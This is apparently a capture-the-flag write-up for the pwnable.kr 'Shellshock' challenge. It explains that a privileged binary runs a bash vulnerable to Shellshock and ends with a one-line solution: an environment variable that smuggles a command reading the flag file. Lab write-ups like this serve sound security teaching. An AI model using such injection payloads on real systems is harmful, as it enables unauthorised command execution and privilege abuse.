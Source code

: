 # 10 - Shellshock



## The Challenge



Mommy, there was a shocking news about bash. I bet you already know, but lets just make it sure :\)



ssh shellshock@pwnable.kr -p2222 \(pw:guest\)



## The Solution



Let's look at the files.



![](/.gitbook/assets/image%20%2837%29.png)



What is the purpose of this bash binary?



The binary is running with shellshock\_pwns privileges. What is it doing?



![](/.gitbook/assets/image%20%2841%29.png)



It runs the bash binry with shellshock\_pwns privileges. what's so special about that bash? As the name of the challenge suggests, this bash is vulnerable to [shellshock](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29).



![](/.gitbook/assets/image%20%2838%29.png)



Here is the solution for ya'll:



```text

env x='() { :;}; /bin/cat flag' ./shellshock

```



